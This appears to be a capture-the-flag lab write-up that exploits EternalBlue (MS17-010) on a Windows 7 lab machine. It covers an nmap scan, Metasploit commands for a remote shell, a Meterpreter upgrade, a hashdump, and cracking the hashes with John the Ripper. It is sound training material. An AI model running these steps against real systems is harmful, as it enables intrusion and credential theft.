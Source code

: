 #Windows #EternalBlue #MS17-010

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.33.86
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 135/tcp msrpc Microsoft Windows RPC

![image](https://user-images.githubusercontent.com/99097743/171191732-73be2919-4881-4759-bf5a-eeb8b8460a9a.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191815-76b01734-be5b-4a75-b7d8-deaf07334a2d.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191940-4d44c027-59e1-45af-9635-fa1d279731d2.png)

* 3389/tcp open  ssl/ms-wbt-server?

![image](https://user-images.githubusercontent.com/99097743/171192028-c0d68993-f0d4-435b-bf66-4ecbf95e6992.png)


**MS17-010 KNOWLEDGE BASE**

Reference: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue

ms17_010_eternalblue is a remote exploit against Microsoft Windows, originally written by the Equation Group (NSA) and leaked by Shadow Brokers (an unknown hacking entity). It is considered a reliable exploit and allows you to gain access not only as SYSTEM - the highest Windows user mode privilege, but also full control of the kernel in ring 0. In modern day penetration tests, this exploit can be used in internal and external environments.

As far as remote kernel exploits go, this one is highly reliable and safe to use.

The check command of ms17_010_eternalblue is also highly accurate, because Microsoft's patch inadvertently added an information disclosure with extra checks on vulnerable code paths.

This exploit works against a vulnerable SMB service from one of these Windows systems:

* Windows XP x86 (All Service Packs)
* Windows 2003 x86 (All Service Packs)
* Windows 7 x86 (All Service Packs)
* Windows 7 x64 (All Service Packs)
* Windows 2008 R2 x64 (All Service Packs)
* Windows 8.1 x64
* Windows Server 2012 R2 x64
* Windows 10 Pro x64 (< Version 1507)
* Windows 10 Enterprise Evaluation x64 (< Version 1507)

To determine whether the machine is vulnerable, you will have to either examine the system's patch level, or use a vulnerability check.

**GAIN FOOTHOLD**

We can now use `metasploit` to gain access. Here are the steps:

```sh
msfconsole
search eternalblue
use windows/smb/ms17_010_eternalblue
show options
set RHOSTS
set LHOST
run
```

![image](https://user-images.githubusercontent.com/99097743/171214941-056ec471-839f-4e63-829a-d382224b9803.png)


**ESCALATE**

We need to upgrade the shell from the command line to a more functional meterpreter. 

First, let's background the session by clicking `CTRL+Z`. You can see the active session with the `sessions` command:

![image](https://user-images.githubusercontent.com/99097743/171216893-e2977fe8-1f18-4294-bfca-a7b113bd62a4.png)

Now we need search for `shell_to_meterpreter`

![image](https://user-images.githubusercontent.com/99097743/171218485-79849cf9-a5c1-42dc-9387-c2c2e0673a92.png)

Please make sure the session info is updated: `set SESSION 1`

![image](https://user-images.githubusercontent.com/99097743/171218893-6f197426-71fd-43b4-94fb-0e82ba1cc9e8.png)

We can now list the sessions and select Session 2 for the rest of the lab:

![image](https://user-images.githubusercontent.com/99097743/171219818-c114247f-de7c-48b7-86fc-38e6e2590750.png)

**CRACKING**

`hashdump` command will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![image](https://user-images.githubusercontent.com/99097743/171225571-382756c2-7d5f-4b85-aa8c-8b512b4f4a50.png)

We can crack the password using **John the Ripper**. Please make sure to include `--format=NT` here:

![image](https://user-images.githubusercontent.com/99097743/171227324-e3b7b13c-b2d5-49b6-b06e-0c81980c7a51.png)

**FLAGS**

Flag #1

![image](https://user-images.githubusercontent.com/99097743/171230327-a4df5672-e3f5-44f5-967c-46bef0cd094c.png)

Flag #2: Located where passwords are stored within Windows (SAM)

![image](https://user-images.githubusercontent.com/99097743/171230730-18af3044-fd5e-4208-b8bf-d8e83fe77f33.png)


